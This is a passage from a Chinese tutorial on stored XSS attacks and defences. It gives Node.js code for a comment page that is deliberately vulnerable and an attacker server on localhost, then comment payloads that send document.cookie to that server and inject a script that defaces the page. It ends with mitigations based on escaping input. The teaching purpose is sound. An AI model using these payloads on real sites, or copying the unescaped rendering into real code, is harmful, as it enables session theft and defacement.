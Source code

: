 ```
const http = require('http')const URL = require('url')const qs = require('querystring')// 模拟文章数据库const article = {  id: 1,  title: '体育新闻',  content:    '火箭在对阵雷霆首轮系列赛的第5场比赛中以114-80战胜对手，但在这场比赛中更受关注的还是丹尼斯-施罗德和PJ塔克之间的冲突导致两人都被驱逐，当然，在这场比赛之后火箭已经手握3-2的领先优势。',  comments: ['评论1', '评论2'],}// HTML 模板function renderHTML(tpl) {  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`}// 路由分发器const routes = {  'GET /articles/1': (req, res) => {    const tpl = `    <div style="width: 500px;margin: auto;">      <h1>${article.title}</h1>      <p>${article.content}</p>      <h3>评论区</h3>      <ul>${article.comments        .map((item) => '<li>' + item + '</li>')        .join('')}</ul>      <hr/>      <p>请发表您的评论：</p>      <form action="/comments" method="post">        <textarea lines="3" maxlength="1000" name="comment" ></textarea>        <button type="submit">提交</button>      </form>    </div>    `    res.setHeader('Set-Cookie', ['name=keliq', 'age=10'])    res.end(renderHTML(tpl))  },  'POST /comments': async (req, res) => {    let body = await getBody(req)    let { comment = '' } = qs.parse(body)    comment = comment.trim()    if (comment) { // 为防止内存溢出，只保留最新10条评论      article.comments = [comment, ...article.comments.slice(0, 9)]    }    res.writeHead(301, { Location: '/articles/1' })    res.end()  },  'GET /cookies': (req, res) => {    console.log(req.query)    res.end()  },  'GET /malicious.js': (req, res) => {    const script = `document.body.innerHTML = '美女荷棺在线發牌<img width=200 src="http://img.zlib.cn/beauty/1.jpg" />'`    res.end(script)  },}// 获取 req.bodyfunction getBody(req) {  return new Promise((resolve, reject) => {    const arr = []    req      .on('data', (data) => arr.push(data))      .on('end', () =>resolve(decodeURIComponent(Buffer.concat(arr).toString())))      .on('error', reject)  })}function onRequest(req, res) {  const { url, method } = req  const { query, pathname } = URL.parse(url, true) // 解析 url  Object.assign(req, { query, path: pathname }) // 并把 query 和 pathname 参数扩展到 req 对象  const route = routes[[method, pathname].join(' ')] // 获取路由处理函数（策略模式）  if (route) return route(req, res)  res.statusCode = 404  res.end('Not Found')}http.createServer(onRequest).listen(3000) // 被攻击的网站http.createServer(onRequest).listen(4000) // 攻击者收集cookie的服务器
```

运行上面的代码，然后打开网站 `http://localhost:3000/articles/1`，发表一则评论：

```
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，不信的话你输入下面的评论试试（内含福利）：

```
文章写的真棒！<script src="http://localhost:4000/malicious.js"></script>
```

在这个恶意脚本 `malicious.js` 里面，直接改掉了 body，想想看，所有访问你的网站的用户，看到的其实是另外一番景象，太吓人了。

### 防御方案

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致，可以根据需要选择过滤时机，例如：

- 客户端提交前进行校验过滤，如果包含恶意脚本则不提交，或者提交转义后的字符串
- 服务端接收后先校验过滤，如果包含恶意脚本则不存储到数据库，或者存储转义后的字符串
- 客户端渲染时候进行过滤，即使数据库中存储了未经转义的恶意脚本，输出转义后的字符串

## DOM 型 XSS 攻防实战

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。
